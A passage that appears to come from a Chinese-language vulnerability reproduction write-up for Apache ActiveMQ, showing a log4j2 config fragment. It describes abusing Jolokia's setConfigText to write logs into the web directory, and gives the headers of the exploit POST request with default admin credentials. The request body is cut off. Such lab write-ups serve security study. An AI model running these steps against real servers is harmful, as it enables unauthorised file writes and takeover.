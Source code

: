 ```xml
        <Logger name="org.springframework" level="WARN"/>
        <Logger name="org.apache.xbean" level="WARN"/>
        <Logger name="org.eclipse.jetty" level="DEBUG"/>
        <Logger name="org.apache.activemq.audit" level="INFO" additivity="false">
            <AppenderRef ref="AuditLog"/>
        </Logger>
        <!-- Uncomment and modify as needed for ActiveMQ logger
        <Logger name="org.apache.activemq" level="DEBUG"/>
        -->
    </Loggers>
</Configuration>
```

## 漏洞复现

首先获取log4j2的Mbean名字

![image-20240229100652689](images/11.png)

调用setConfigText写入xml配置，将日志写到web目录下，发包的时候记得转义引号

```
POST /api/jolokia/ HTTP/1.1
Host: 192.168.50.74:8161
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Origin: http://192.168.50.74:8161
Content-Length: 1944
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close

```